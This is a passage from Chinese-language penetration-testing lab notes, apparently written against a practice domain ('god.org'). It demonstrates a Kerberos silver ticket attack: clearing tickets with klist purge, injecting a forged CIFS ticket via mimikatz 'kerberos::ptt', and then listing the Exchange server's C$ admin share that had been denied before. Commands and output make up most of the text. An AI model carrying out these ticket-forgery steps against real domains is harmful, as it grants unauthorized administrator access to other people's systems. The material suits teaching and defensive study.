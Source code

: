         Final Ticket Saved to file !
        ```
        
        会在当前目录生成`ticket.kirbi` 
        
    - 未导入前
        
        ```python
        C:\Users\a>dir \\owa.god.org\c$
        拒绝访问。
        ```
        
    - 将白银票据导入，先将当前票据清除,然后将票据导入
        
        ```python
        # cmd
        klist purge
        # mimikatz
        kerberos::ptt C:\users\a\Desktop\ticket.kirbi 
        ```
        
        导入后使用`klist`命令查看导入票据
        
        ```python
        C:\Users\a>klist
        
        当前登录 ID 是 0:0x4a1a38
        
        缓存的票证: (1)
        
        #0>     客户端: administrator @ god.org
                服务器: cifs/owa.god.org @ god.org
                Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
                票证标志 0x40a00000 -> forwardable renewable pre_authent
                开始时间: 11/22/2024 15:06:57 (本地)
                结束时间:   11/20/2034 15:06:57 (本地)
                续订时间: 11/20/2034 15:06:57 (本地)
                会话密钥类型: RSADSI RC4-HMAC(NT)
        ```
        
    - 再次访问`OWA`的`cifs`服务
        
        ```python
        C:\Users\a>dir \\owa.god.org\c$
         驱动器 \\owa.god.org\c$ 中的卷没有标签。
         卷的序列号是 1E4D-1970
        
         \\owa.god.org\c$ 的目录
        
        2019/10/13  13:06    <DIR>          ExchangeSetupLogs
        2019/08/24  21:55    <DIR>          inetpub
        2009/07/14  11:20    <DIR>          PerfLogs
        2019/08/24  21:34    <DIR>          Program Files
        2019/08/24  21:34    <DIR>          Program Files (x86)
        2019/10/13  18:01    <DIR>          redis
        2024/11/21  21:58    <DIR>          Users
        2024/11/21  21:59    <DIR>          Windows
                       0 个文件              0 字节
                       8 个目录 13,935,308,800 可用字节
        ```
        